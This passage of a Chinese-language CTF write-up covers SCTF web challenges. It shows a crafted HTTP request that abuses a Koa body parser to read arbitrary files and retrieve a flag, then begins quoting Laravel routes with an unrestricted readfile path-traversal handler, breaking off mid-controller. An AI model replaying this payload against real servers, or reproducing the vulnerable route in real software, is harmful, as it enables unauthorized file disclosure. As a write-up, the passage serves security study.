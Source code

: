 ```javascript=


router.get('/', async (ctx, next) => {
  ctx.response.type = 'html';
  ctx.response.body = fs.createReadStream('index.html');
  
});

app.use(router.routes());
app.listen(3333, () => {
  console.log('This server is running at http://localhost:' + 3333)
})

```
因为koa中访问参数也是ctx.request.body.xxxx 所以我们可以构造
```
POST /uploadfile HTTP/1.1
Host: 127.0.0.1:3333
Content-Length: 77
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:3333
Referer: http://127.0.0.1:3333/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"files":{"file":{"path":"flag"}}}
```
来进行任意文件读取

SCTF{47cf9489d8832e44312dssxag6f88f45736e0e9c8}



## bestlanguage



```php=

Route::get('/',"IndexController@init");
Route::post('/rm',"IndexController@rm");
Route::get('/tmp/{filename}', function ($filename) {
    readfile("./var/tmp/".$filename);
})->where('filename', '(.*)');
Route::post('/upload',"IndexController@upload");
Route::get('/move/log/{filename}', 'IndexController@moveLog')->where('filename', '(.*)');

```

```php=
<?php


namespace App\Http\Controllers;


class IndexController extends Controller
{
    public function init(){
        if($_SERVER["REMOTE_ADDR"] !== "127.0.0.1" && strpos($_SERVER["REMOTE_ADDR"],"192.168.") !== 0 && strpos($_SERVER["REMOTE_ADDR"],"10.") !== 0 )  {
            die("admin only");
```